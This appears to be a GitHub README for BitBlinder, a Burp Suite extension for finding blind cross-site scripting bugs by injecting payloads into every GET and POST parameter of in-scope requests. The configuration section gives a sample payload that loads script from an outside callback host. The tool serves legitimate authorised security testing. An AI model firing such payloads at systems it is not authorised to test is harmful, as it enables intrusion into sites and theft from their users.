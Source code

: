 # BitBlinder

**THIS TOOLS IS IN EARLY BETA USE IT ON YOUR OWN RISK**  
Burp extension helps in finding blind xss vulnerabilities by injecting xss payloads in every request passes throw BurpSuite
```
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
-  Developer: Ahmed Ezzat (BitTheByte)      -
-  Github:    https://github.com/BitTheByte -
-  Version:   0.05b                         -
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
[WARNING] MAKE SURE TO EDIT THE SETTINGS BEFORE USE
[WARNING] THIS TOOL WILL WORK FOR IN-SCOPE ITEMS ONLY
[WARNING] THIS TOOL WILL CONSUME TOO MUCH BANDWIDTH
```

# Configuration
Go to `Bit blinder` tab then enable it  
Set your payloads (line separated)  
```
"><script%20src="https://myusername.xss.ht"><script>
"><script%20src="https://myusername.xss.ht"><script>
...
```
If you added more than 1 payload enable the randomization button  
If you want to keep it disabled keep in mind that the tool will use the first payload only


# How to use
1. Load the extension to your burpsuite
2. Click on `Bit blinder` tab then enable it  
3. Add your target to scope **It'll only work for inscope items**
4. Continue your hunting session **Make sure to do alot of actions [Forms,Search,...]**
5. Monitor the output in extension's output tab

**Note:** By the nature of this tool it'll make alot of requests so you may get blocked by WAF or experience slow internet connection


# In a nutshell

When user visits [https://example.com?vuln=123&vuln2=abc](https://example.com?vuln=123&vuln2=abc)  
This tool will generate the following 2 requests (in the background without effecting the current session)  
1. [https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc](https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc)
2. [https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD]](https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD])

The previous example also applies to `POST` parameters


# Current version
```
Version 0.04b
```


# TO-DO (By priority)
- GUI ✓ ( A very ugly one for now.. )
- Fix endless request loops ✓
- Injection in headers
- Option to exclude paramters/hosts/endpoints
- Better output/logging system
